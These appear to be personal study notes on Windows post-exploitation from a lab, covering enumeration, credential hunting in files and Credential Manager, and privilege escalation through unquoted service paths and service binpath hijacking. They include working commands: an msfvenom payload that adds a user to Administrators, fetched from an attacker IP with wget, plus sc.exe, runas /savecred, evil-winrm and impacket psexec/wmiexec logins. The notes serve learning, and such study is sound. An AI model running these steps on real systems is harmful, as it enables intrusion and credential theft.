








# Post-Exploitation in Windows

## User Level
1. local low
  - redracccon, low, etc.
2. local admin
  - Administrator (or HOSTNAME\Administrator)
  - have permissions of specific config and file 
3. service account
  - NetworkService, LocalSystem, mssql service, etc.
  - only used to run Windows services
4. SYSTEM
  - NT Authority\System
  - OS, Services, Processes use this high-priv account
  - not for actual users
  - if you have local admin = can get SYSTEM account
    - MS doesn see as maicious
    - How to get?
      - Access Token manipulation
      - PSExec : create a service and run as admin
  - SYSTEM =! not highest priv or root
    - Session 0(SI) of SYSTEM : restricted - GUI, Access token usage, AD attack
      - cause it's not for actual users
    - Session 1~ of local admin : can everything 
      - so that's why use local admin account for post-exploitation
5. Domain low 
  - raccoon.local\jim
    - Jim in domain (in AD environment)

- in practice, attackers do 
1. compromise specific host = get local admin priv
2. local admin priv = can get SYSTEM priv
3. Credential Dumping with SYSTEM priv
  - SAM(Security Account Manager) Database 
    - local user's accounts data
  - LSA(Local Security Authority) secrets
    - registry key helps Windows overall configuration
    - in registry,  
      - encrypted service accounts password 
      - or encrypted IE, SQL, Cisco, Wifi, etc's password
    - you can decrypt as SYSTEM priv 
      - get plain password of Service accounts 
  - LSASS(LSA Subsystem)
    - cashed account data of users who setup interactive logon session in the host
    - cashed in memory of LSASS.exe
      - if dumping, get current logon user's NT hashed password  
  - DPAPI(Data Protection API)
    - encrypted with user or master key in the host
      - you can check out at creential manager
    - application, internet browser(chrome), etc. 
      - another user's chrome password decrypt possible


## Information Gathering in Post-Exploitation
- redraccoon
- low - low priv user

`xfreerdp /u:redraccoon /p:'Password123!' /v:172.31.167.162 /dynamic-resolution`

- powershell
```
- Who am I? 
whoami
whoami /priv
net user redraccoon
  what local group am I in?
  Remote Desktop Users
    I can use xfreerdp or if it's not working, rdesktop
  Remote Management Users
    I can leverage WinRM or psremoting
  Users
    default

  

net user
  default :
  - Administrator
  - DefaultAccount
  - WDAGUtilityAccount
    - nothing interesting for attack

net localgroup
  remember default groups
```
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Remote Desktop Users
*Remote Management Users
*Replicator
*System Managed Accounts Group
*Users
```

cd C:\Users\
  home dir
  check if there's another users
    - because in AD environment, 
    when domain user(not in local users) access to C:\Users\, user's home directory is created   
      - oh this users have accessed this before  
    - 
    if they create the same name user, low.EC2~ 
    - Public : all user can use 


hostname 
  - assume what kind of server 
    - e.g. EC2AMAZ-T3~
    - oh EC2 instance based on Amazone, etc.

systeminfo.exe
  - the important things are
    - OS/Version
      - Buildnumer's release date > check vulns 
    - Hotfix 
      - if OS emergent vulns comes out, helps patch
      - N/A means not installed = security patch not done
        - kernel or OS vulns possible 

winver.exe
  - shows specific version number 1809 
    - 2018 released 
      - guess it's not security patched since 2018 for 6 years?
      - because no hotfix too 
      - exception: EC2 cloud service is well secured by default 
    - 22h2, 22h1 - 2022released
```

- Network
```
arp -A
  - in layer2, accessible hosts around me 
    - ping gateway possible
  - never mind of 255 broadcast   
   

ipconfig /all
  - in layer3, 
  - How many do you have NIC(Network Interface Card)?
  - =most important thing
    - in case of 2 NIC,
     - Network A <-> Host(jump host) <-> Network B
  - Gateway
  - DHCP server

route print
  - what kind of network can I route?/can I send the traffic?
    - if I wanna go out to internet or all kind of IP, 
      you need go through the gateway 
```

- Processes
```
ps
  - SI
    - 0 : services run by OS/System,Services
    - 1~ : being used by acutal User 
  
  - if httpd running, it's often a webserver  
  - in practice,
  check EDR solution running 
    - and I'm gonna bypass this solution
```

- Services
```
Get-Service
  - All services (like dpkg --list?)
  - installed
    - Abyss Web server stopped
      - but stopped services are less useful
      - usually focus on running services   
      - get-service | where-object {$_.status -eq "running"}
    - Apache CouchDB
    - Apache 2.4 

   
  
```

```
netstat -ano
  - need to find out ports opened for only localhost
  - 0.0.0.0 opened against outside or all
  - 127.0.0.1 opened aggainst localhost 
    - if you're wondering what processes are opened,
    can find processname with PID 
      ps | where-object {$_.id -eq "2380"}
    
      443 > 2028 - httpd 
      445 > 4 - system
      4369 > 2380
      5985 > 4
      8080 > 2028 - httpd
      9999 > 1888 - abyssws : process running but service stopped
      local
        2380 - epmd 
        2316 - erl
      
    but detailed description not possible
    get-service | where-object {$_.name -eq "epmd"}
```

- Software installed even though it's not on Service list
```
check out File system 
- C:\
  - installed SW: 
    - CouchDB, 
    - xampp, 
    - SysinternalsSuite
      - useful tools to manage system
  - /opt : it's unusual, cause only in linux system
    - check out, Abyss Web Server  
- Program Files
  - normal : 64bit
    - remember default installed SW
    - Amazon : when on EC2 instance
    - Google : google chrome
    - only Notepad++
    - Packagemanagement : like apt
      - chocolatey
    
  - x86 : for 32bit programs
- check out when changed on parent dir : LastWriteTime 
  - EFI : default dir - long ago 
  - Proram files - 1 day ago, : something was insatlled 
```
- they are all attack surface 
  - check vulns and misconfiguration, or something related to speicific SW installed

#### Automation tool
- winpeas


## Privilege Escalation in Post-Exploitation
- what kind of services, processes, softwares are installed and how could I abuse for specific ones?


often
- Hard coded secret
- Software local privilege escalation vuln
- Misconfiguration
- Unquoted Service Path
- misconfigured privilege to Service
- Credential Manager

- Env Variable
- misconfigured privilege to User or groups
- AnlwaysInstallElevated
- task schduler
- kernel exploitation


### Hardcoded secrets
- Secret such as user name, password, API key, RSA Token, etc. as plain text
- it's very common for all companies in practice

- Network service's config file 
  - access to other networks
    - username, password
  - in case of recently released ones it's hashed, encrypted  

- saved in User devices
  - non-technical employees
  - technical employees
    - helpdesk
    - sys admin
    - developer, devops
    - blue team
    - >e.g. password.txt, 'how to access dev-server.md', API key, RSA token, exposed username, password left in powershell history   

- Location
  - config files
    - C:\
    - C:\Program Files\
    - C:\Program Files(x86)\
  - window registry > key
  
  - User's home
    - C:\Users\USERNAME\Desktop(or Downloads or Documents)
  - Powershell history file
    - saved path : (Get-PSReadLineOption).HistorySavePath
      - same result with
      `Get-PSReadLineOption | ForEach-Object {$_.HistorySavePath}`
    
  - find "passsw*" string recursively on specific directories 
    - or secret
```
Get-ChildItem -Path <PATH> -Recurse -Include *.ini,*.config,*.xml -ErrorAction SilentlyContinue | Select-String -Pattern 'passw' -CaseSensitive:$false | Group-Object Path | ForEach-Object { "[+]Potential plaintext creds: $($_.Name)"}
  -Include FILE: search Only file extension 
  -ErrorAction SilentlyContinue : permission warming ignore
  Group-object Path : I wanna see gather with path 
  
  ForEach-Object {$_.Name} : I wanna see 'Name' only > loop : show each object's name 
  -Force : necessary? too much results

```
  - Windows often use config file with ini,xml,config extension 

  - network service's password is prone to be the same with local user's password
    - because employees wanna set the same simple password first and forgot to change it.


  - common employees usually use md,txt,csv,xslx,docx, etc.
```
get-childitem -path c:\users\redraccoon -recurse -include *.md,*.txt,*.csv,*.xlsx,*.docx -erroraction silentlycontinue

get-childitem -path c:\users\redraccoon -recurse -include *.md,*.txt,*.csv,*.xlsx,*.docx -erroraction silentlycontinue | select-string -pattern 'passw' -casesensitive:$false | group-object path | foreach-object {$_.name}

or 

get-childitem -path c:\users\redraccoon -recurse -include *.ini,*.config,*.xml,*.md,*.txt,*.csv,*.xlsx,*.docx -erroraction silentlycontinue | select-string -pattern 'passw|secret' -casesensitive:$false | group-object path | foreach-object {$_.name}

```


### Unattended File
- files used for automated host provisioning(setup and configuration) 
  - e.g. 500 employees are hired
    - need to set up the VDI(personal devices need access to enterprise computer system)/laptop/workstation(PC to perform work), windows OS, program for them.
    - setup default user, programs, script, task scheduler, etc.


- when creating default users, hardcoded creds 
- when executing scripts, leave this 
  - ./install-googlechrome.ps1 -u username -p password
- when creating task schedule, leave this 
  - New-ScheduledTaskAction [...] -u username -p password

- world readable
  - that's why don't leave critical data in the unattended file
  

- file location
  - depends on automation solutions
  - but similar

`C:\windows\panther\unattend.xml
C:\windows\panther\unattended.xml
C:\windows\panther\unattend\unattend.xml
C:\windows\panther\unattend\unattended.xml
C:\windows\system32\sysprep\sysprep.inf 
C:\windows\system32\sysprep\sysprep.xml`

```powershell
# first
get-childitem -path c:\windows\ -recurse -include 'sysprep.inf','sysprep.xml','unattend.xml','unattended.xml','unattend.txt' -force -erroraction silentlycontinue | foreach-object {$_.Fullname}
# windows dir is too big   

# if know if it's panther
Get-ChildItem -Path c:\windows\panther -recurse -include 'sysprep.inf','sysprep.xml','unattend.xml','unattended.xml','unattend.txt' -force | foreach-object {$_.Fullname}
  # $_.Fullname : path, you can try another $_.ATTRIBUTES 
```
- got creds in unattended.xml 
  - admin/Administrator, plain text - false, 
    - usually hashed or encrypted, but it looks like base64   
  - common user - plaintext 


- base64 decode
```powershell
[System.Text.Encoding]::Unicode.Getstring([System.Convert]::FromBase64String('<base64>'))
# using C# Code 
# - use FromBase64String in System.Convert Class

[System.Text.Encoding]::Unicode.Getstring([System.Convert]::FromBase64String('UABhAHMAcwB3AG8AcgBkADEAMgAzACEA'))
```


- configuration
  - download web from github
  - but you need to go through proxy(web proxy) with proxy creds    


### Credential Manager
- Default password manager
- if you don't wanna put your passwords whenever you go, 
  - when executing network, website/application, usual process
  - they save it and tell the application automatically
  - encrypted with DPAPI(Data Protection API) - one of WinAPI

#### requirement
  - the user save creds in cred manager
    - server/system admin/manager
    - helpdesk
      - they need to use many accounts, but can't remember 

#### attack method
1. exploit to specific user
2. check if they use creds manager
3. 
  - decrypt creds or
  - create process that attacker wants with encrypted password straight away 

#### Types
- Web Credentials
  - when using IE or edge
- Windows Credentials
  - when using specific programs or applications


- someone accessed and created interactive logon session as local admin in the host
  - try to decrypt 
    - Mimikatz, etc.
  - use rightaway 

- in practice, usually not get GUI
  - in CLI/shell : cmdkey /list
  
    - but it's not domain account
  - `runas /savecred /u:Administrator "powershell.exe"`
    - process started and got Administrator shell


#### TMI
```
- actual saved path : C:\users\redraccoon\appdata\roaming\microsoft\credentials\
ls -force
9A1F8C7BBA9CCE7AFAFC0C4A9AF4422A - DPAPI encrypted
```


### Unquoted Service Path
- Service in Windows
  - ImagePath : service binary's path
    - e.g. c:\apache\apache.exe

  - and then Windows execute the service binary with CreateProcess(WinAPI) function
    - `CreateProcess(ImagePath, p1, p2)`
      - but it's designed wrong 
        - first param(lpApplicationName) looking for file in its own order

#### logic
1. if there's no double quotes "" in the pathname
2. and white space in the path
  - e.g. `C:\Optional programs\red raccoon\apache.exe`
  - find and execute `Optional.exe`
  - ...


#### Requirement
writable permission to the dir
priv to restart Service or reboot host


#### Practice

- 
```powershell
Get-WmiObject Win32_Service | Where-object {$_.Startmode -eq 'Auto' -and $_.pathname -notlike 'c:\windows\*' -and $_.PathName -notmatch '^\s*\".*$'} | select-object Name, DisplayName, PathName, StartMode
```

1. 
- icacls c:\opt\
  - important thing is top : Users group has Full priv
    - look complex
      - alternative : accesschk.exe

- 
```powershell
cd C:\sysinternalssuite
.\accesschk.exe -accepteula -q -d c:\opt
```
- all users have RW perm

2. 
- create a payload
```
msfvenom -p windows/x64/exec CMD="net localgroup Administrators redraccoon /add" -f exe-service -o Abyss.exe
```
  - CMD shell commands 
  - service binary structur is different with usual binary 

3. 
```
wget(Invoke-WebRequest) http://10.8.0.129/Abyss.exe -outfile Abyss.exe
```

4. 
```
Restart-Service AbyssWebServer

net user redraccoon
```
- got Administrators group


### misconfigured privilege to Service
- when misconfigured 'service modify' privilege to specific user 
  1. modify attributes
    - modify path to attacker's payload path 
      - >it's different from PathName

  2. replace service binary itself with payload


- information gathering first in the host 
  1. check modify priv of service binary path
    - modify binPath  -> set payload's path
  2. bianry write perm
    - in practice, barely use 


#### Practice
1. access check
```
accesschk 
- in SysinternalsSuite
- need to be downloaded from the internet by MS
KALI > WINDOWS 
wget http://10.8.0.129/accesschk.exe -outfile accesschk.exe
  -outfile FULLPATH: necessary

.\accesschk.exe -accepteula -ucqv redraccoon AbyssWebServer
  -ucqv : I'm gonna gather specific service's info

  this specific user has ALL_ACCESS of service  
```

- in case of specific group granted  
```
.\accesschk.exe -accepteula -ucqv Everyone AbyssWebserver
.\accesschk.exe -accepteula -ucqv Users AbyssWebserver
.\accesschk.exe -accepteula -ucqv "Authenticated Users" AbyssWebserver
  all users are in these default group and don't have Acess

.\accesschk.exe -accepteula -ucqv Administrators AbyssWebserver
  Administratos have access

```

2. check Binary Path 
```
sc.exe qc Abysswebserver
```
- can modify BINARY_PATH_NAME 
```
wget http://10.8.0.129/Abyss.exe -outfile c:\temp\Malicious.exe


```

3. modify Binary Path
```
sc.exe config Abysswebserver binpath= "c:\temp\malicious.exe" 
  white space is necessary  

restart-service abysswebserver

sc.exe qc abysswebserver
net localgroup administrators
```
  - Administrators group got

  - and also redraccoon can run powershell as administrator 
  - 
    - of course username doesn't change, but can run as priv Administrator  


## Remote Access in Windows
- in linux
  - ssh
  - web(shell), 
  - VNC
    - if the target host is linux, access with GUI 
  - telnet

### official and recommended
- if you are in group of Remote Desktop Users or Remote Management Users, you don't need to be in Administrators to access 
  - RDP (3389)
    - access with GUI
  - WinRM (5985, 5986 - HTTP/S)

### unofficial
- you need to be in Administrators(as local admin) necessaily 
  - SMB 445
  - WMI(Windows Management Instrumentation) 135
    - for managing devices


### phases
1. if you get creds as low or high, in ways of hash racking, etc.,

2. check if the port is open 
- 
```
nmap -p 3389,5985,5986,139,445,135 -Pn -n -sV --open 172.31.167.162
```

3. choose the possible way to get shell out of 4 ways  
#### RDP
- if Microsoft Terminal Services is running, RDP
```
xfreerdp /u:Administrator /p:'Password123!' /v:172.31.167.162 /dynamic-resolution
```
- if it's not working, 
```
rdesktop -u Administrator -p 'Password123!' 172.31.167.162[:3389 = default port]
```
- it's faster than xfreerdp

- in Remote Desktop Users groups
`net localgroup "Remote desktop users"`
- low, redraccoon, (Administrator of course)


#### WinRM
- Windows Remote Management
- evil-winrm is the best tool to get shell like ssh in linux 
  - in practice, used much because admin, developer, solution and script use a lot, attacker use a lot too
```
evil-winrm -i 172.31.167.162 -u Administrator -p 'Password123!'
```
`net localgroup "Remote Management users"`


#### SMB
in SMB, can get shell, not in shares
but you need to refer to guide book - how to get shell technically in SMB
  - not always,
  - with psexec tool

- similar way : impacket 
  - python based windows tool and libraries 
```
- insatllation
sudo apt update -y
sudo apt install impacket-scripts 


- get shell with impacket-psexec script  
impacket-psexec Administrator:'Password123!'@172.31.167.162

in AD,
impacket-psexec Domain\\Administrator:'Password123!'@172.31.167.162
```
1. upload service binary to ADMIN$ share(c:\windows\system32)
2. if SMB is opened, can use RPC(Remote Procedure Calls) to do network request  
  - request by using SVCManager (request: Create Service on the target 
  host)
    - service name: random
3. Start service, service binary we put starts
4. get shell (authority\system priv got)

- using PSEXEC needs local administrator to upload on ADMIN$ share and create service, etc.

5. auto remove uploaded binary and service when exist


#### WMI
```
nmap -p 135 -Pn -n --open 172.31.167.162
```
- shown name : msrpc

- impacket-wmiexec
```
impacket-wmiexec Administrator:'Password123!'@172.31.167.162
```
get shell as Local admin 


- if you get creds as low or high, in ways of hash racking, etc.
, chekc if those ports are opened and access  